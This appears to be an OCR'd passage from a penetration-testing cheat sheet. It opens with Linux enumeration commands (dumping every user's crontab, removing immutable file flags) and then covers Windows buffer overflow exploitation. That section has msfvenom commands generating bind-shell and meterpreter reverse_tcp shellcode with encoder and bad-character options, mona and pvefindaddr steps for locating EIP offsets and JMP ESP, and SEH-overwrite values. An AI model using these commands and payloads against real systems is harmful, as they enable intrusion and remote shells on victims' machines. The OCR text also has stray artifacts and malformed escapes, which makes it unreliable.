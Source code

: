     getent group

    for user in $(getent passwd|cut -f1 -d:); do echo “### Crontabs for $user ####”; crontab -u $user -l; done

    cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#$%^&*()_+{}|:<>?=’|fold -w 12| head -n 4

    find . | xargs -I file lsattr -a file 2>/dev/null | grep ‘^….i’
    chattr -i file

#### Windows Buffer Overflow exploits

    msfvenom -p windows/shell_bind_tcp -a x86 –platform win -b “\x00” -f c
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 –platform win -e x86/shikata_ga_nai -b “\x00” -f c

#### COMMONLY USED BAD CHARACTERS

    \x00\x0a\x0d\x20 For http request
    \x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c Ending with (0\n\r_)

#### Regular command

    pattern create
    pattern offset (EIP Address)
    pattern offset (ESP Address)
    add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )

    !pvefindaddr pattern_create 5000
    !pvefindaddr suggest
    !pvefindaddr nosafeseh


    !mona config -set workingfolder C:\Mona\%p

    !mona config -get workingfolder
    !mona mod
    !mona bytearray -b “\x00\x0a”
    !mona pc 5000
    !mona po EIP
    !mona suggest

#### SEH – Structured exception handling

Note: SEH (“Structured Exception Handling”), or structured exception handling, is a powerful processor error or exception weapon provided by the Windows operating system to the programmer.

    # https://en.wikipedia.org/wiki/Microsoft-specific_exception_handling_mechanisms#SEH
    # http://baike.baidu.com/view/243131.htm
    !mona suggest
    !mona nosafeseh
    nseh=”\xeb\x06\x90\x90″ (next seh chain)
    iseh= !pvefindaddr p1 -n -o -i (POP POP RETURN or POPr32,POPr32,RETN)
